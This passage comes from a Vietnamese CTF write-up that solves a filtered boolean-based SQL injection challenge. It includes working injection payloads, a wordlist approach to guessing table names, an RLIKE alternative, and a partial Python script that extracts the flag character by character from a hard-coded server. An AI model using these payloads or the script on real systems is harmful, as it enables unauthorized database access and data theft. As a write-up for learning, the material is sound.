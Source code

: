 Hiện tại, câu query đang được thực thi bên phía server là `SELECT * FROM users WHERE username='{$user}' AND password='{$pass}';`=> Ý tưởng, điền user bất kỳ, password sẽ là một truy vấn SELECT bypass space với ký tự đóng mở ngoặc kết hợp điều kiện sao cho câu query phải được thực thi

Đầu tiên, làm sao đó để server trả về welcome khi truy vấn SQL được thực hiện thành công, mình đã làm được điều đó bằng cách sau:

![image]({{ "/assets/img/2025-08-24-PTITCTF2025/image3.png" | relative_url }})

Giải thích thêm về payload trên, theo như cách mình inject, câu query cuối cùng được server thực thi là 

```sql
SELECT * FROM users WHERE username='anhcd1' AND password='123'OR'anhcd2'='anhcd2';
```

Trong MySQL nói riêng và SQL nói chung, toán tử AND có độ ưu tiên cao hơn toán tử OR nghĩa là trong câu query, toán tử AND sẽ được xử lý trước, sau đó mới tới OR. Điều này sẽ dẫn tới câu query của chúng ta sẽ trở thành 

```sql
SELECT * FROM users WHERE (username='anhcd' AND password='123') OR ('anhcd2'='anhcd2');
```

Đây là một điều kiện luôn đúng, vì vậy nên server trả về `welcome \o/`. Giờ mình sẽ tìm cách inject được một SELECT statements vào câu query boolean-based hiện tại, và cách mình đưa ra là `?user=anhcd1&pass=123'OR(SELECT(1))AND'anhcd2'='anhcd2`

![image]({{ "/assets/img/2025-08-24-PTITCTF2025/image4.png" | relative_url }})

Như vậy là ta đã cơ bản xây dựng được một payload khai thác boolean based SQLi, giờ tới giai đoạn enumerate để leak tên table và column. Khi nhìn lại vào phía filter, ta có thể thấy `information, schema, db` đều đã bị filter mất. Mình vẫn còn lại một vài ý tưởng sử dụng `processlists` của MySQL để leak được database ra nhưng mình cũng chưa thể thực hiện được theo hướng này do vốn dĩ để truy cập processlist cũng cần `schema hoặc mysql` => `performance_schema.processlist hoặc mysql.processlist` nhưng cả schema và ký tự y đều đã bị filter

Ý tưởng đơn giản hơn để enumerate, khi ta đã SELECT được rồi tại sao không thử thêm `FROM common_table_name`, nếu có table đó thì nó sẽ trả về giá trị true đúng chứ? Vậy là mình đi tìm một wordlist cho các table name phổ biến

![image]({{ "/assets/img/2025-08-24-PTITCTF2025/image5.png" | relative_url }})

Như vậy là ta đã có tên bảng, đến đây gần như chắc nịch việc column cũng sẽ tên là flag, nhưng để chắc chắn hơn chúng ta có thể chạy thêm một lần wordlist column name nữa.

Cuối cùng, sử dụng ORD, MID để dần dần leak từng ký tự là value tương ứng khi ta thực hiện query `SELECT flag FROM flag`, có thể thực hiện việc này bằng intruder hoặc viết 1 python script:

> Ngoài solution sử dụng ORD, MID, có những solution khác sử dụng RLIKE + IF, câu query sẽ kiểu như `1'||IF((SELECT(flag)FROM(flag))RLIKE('^ptitctf{<các ký tự tiếp theo>'),1,0)||'%00`

```python
import requests

target_url = "http://103.197.184.163:12113"
extracted = ""
max_length = 36

for index in range(1, max_length + 1):
    success = False
    for ascii_code in range(32, 127):  # printable ASCII
        payload = f"'||ORD(MID((SELECT(flag)FROM(flag)),{index},1))={ascii_code}||'"
        crafted_url = f"{target_url}?user=anhcd1&pass={payload}"

        response = requests.get(crafted_url)
        content = response.text.strip()

        if "welcome" in content:
```